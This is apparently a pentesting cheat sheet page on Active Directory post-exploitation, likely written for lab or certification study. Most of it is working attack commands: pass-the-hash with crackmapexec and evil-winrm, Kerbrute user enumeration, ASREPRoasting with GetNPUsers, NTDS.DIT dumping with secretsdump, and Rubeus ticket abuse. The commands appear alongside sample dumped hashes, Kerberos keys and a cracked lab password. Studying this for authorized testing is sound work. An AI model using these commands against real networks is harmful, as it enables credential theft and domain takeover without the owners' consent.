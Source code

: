 # Post-Exploitation

You should approach to first machine in AD as regular standalone windows machine. Lateral movement or privilege escalation as well.

You can do post exploitation steps as follows:

Check groups where the user is in. Check the user in some privileged group.

Check another users in the domain.

Search files in the system for finding passwords, important notes and information, mail etc.

Check services on the system.

Some services contains cleartext passwords, hashes in some files.

Extract hashes, secrets, kerberos tickets with mimikatz etc. (requires system shell)

{% content-ref url="../password-extraction.md" %}
[password-extraction.md](../password-extraction.md)
{% endcontent-ref %}

Try pass the hash methods like using psexec or crackmapexec from impacket, evil-winrm, xfreerdp etc. (If the target user has not Administrator rights, you cannot get shell with impacket).

Try cracking extracted hashes.

{% content-ref url="../password-cracking/" %}
[password-cracking](../password-cracking/)
{% endcontent-ref %}

Check SPNs. If there is SPN in system, try extract and crack it.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

Check GMSA. If there is gmsa account in the system, try extract and crack it.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

If you have cleartext password you can use Spray-Passwords.ps1 to identify the another user is using the same password.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

Check the user has capabilities for exploitable GPO.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

You can try recent AD exploits to get domain admin privileges.

## Crackmapexec

```
# pass the hash
crackmapexec smb --local-auth 10.11.1.0/24 -H ee0c207898a5bccc01f38115019ca2fb -u Administrator
```

## Kerbrute

> This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication. It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.

```
# enum valid usernames
./kerbrute userenum userlist.txt -d spookysec.local --dc 10.10.70.25
```

![](<../../.gitbook/assets/image (32) (2).png>)

## **ASREPRoasting**

> After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.** ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.
>
> Impacket has a tool called "GetNPUsers.py" that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames

### Impacket-GetNPUsers

```
impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format john
impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format hashcat
```

![](<../../.gitbook/assets/image (40).png>)

Crack the hash with whatever format you chose

```
svc-admin : management2005
```

## Impacket-secretsdump

> We can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that a user account (that is synced with the domain controller) has to offer

```
impacket-secretsdump backup@spookysec.local

Impacket v0.10.1.dev1+20220708.213759.8b1a99f7 - Copyright 2022 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
.
.
.
.
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
```

This command dumps SAM hashes using the the Administrator's hash as a PTH method rather than entering a password

```
impacket-secretsdump Administrator@10.11.1.123 -hashes '3fee04b01f59a1001a366a7681e95699:3fee04b01f59a1001a366a7681e95699'
```

## Pass-The-Hash

### Evil-WinRM

> method of attack could allow us to authenticate as the user without the password

```
evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

## Rubeus

{% code overflow="wrap" %}
```bash
# gets tgt of machine account
.\Rubeus.exe tgtdeleg /nowrap
# decode it to .kirbi file
cat b64hash | base64 -d > m.kirbi
# convert ticket to ccache file
impacket-ticketconverter m.kirbi m.ccache
export KRB5CCNAME=`pwd`/m.ccache
klist
# syncronize time just in case
sudo ntpdate -u IP
# dump hashes
impacket-secretsdump domain.local/DC-NAME\$@dc-name.domain.local -dc-ip domain.local -no-pass -k
```
{% endcode %}
